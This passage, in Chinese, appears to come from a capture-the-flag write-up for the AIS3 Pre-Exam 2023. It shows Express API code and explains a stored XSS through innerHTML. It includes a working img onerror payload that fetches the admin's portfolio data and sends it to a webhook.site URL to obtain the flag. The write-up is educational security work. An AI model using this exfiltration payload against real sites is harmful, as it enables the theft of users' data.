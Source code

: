 ```javascript
app.get("/api/portfolio", (req, res) => {
    if (!req.session.username)
        return res.status(401).json({ success: false, message: "Unauthorized" })
    db.get("SELECT * FROM Users WHERE username = ?", req.session.username, (err, row) => {
        if (err)
            return res.status(500).json({ success: false, message: "Internal server error" })
        if (!row)
            return res.status(404).json({ success: false, message: "Not found" })
        return res.json({ success: true, data: row })
    })
})
```

這裡我們使用下方的 code 設成我們的 portfolio 來觸發 XSS，注意因為這個 XSS 的點是 `innerHTML`，所以直接插入 `<script>` 是不會被執行的，這裡有說明為什麼不行 https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations。

下面的 script 做的是就是把使用者的資料送到 webhook.site，儲存後按下 Share your portfolio with admin，admin 拜訪後他的資料就會被送來我們這邊，flag 就在裡面，結果在下面那張圖片裡。也有另一種送資料的方式：把資料設成自己的 portfolio。

```html
<img src=x onerror="
    fetch('/api/portfolio')
        .then(function (res) { return res.json() })
            .then(function (data) {
                location = `https://webhook.site/e4d998ee-e522-4327-a277-9fa10b77e43a?${JSON.stringify(data)}`
            });
">
```

![](/ais3-pre-exam-2023-write-up/webhook.webp)

另外看到有一些人選擇偷 cookie，但 `connect.sid` 是設成了 http only，所以 Javascript 在一般情況下是拿不到這個跟登入狀態有關的 cookie 的。

另外在 MyFirstCTF 結束後我有上台分享大家都在 portfolio 裡面放了什麼，那份簡報在[這裡](/ais3-pre-exam-2023-write-up/My%20First%20CTF%202023.pdf)。
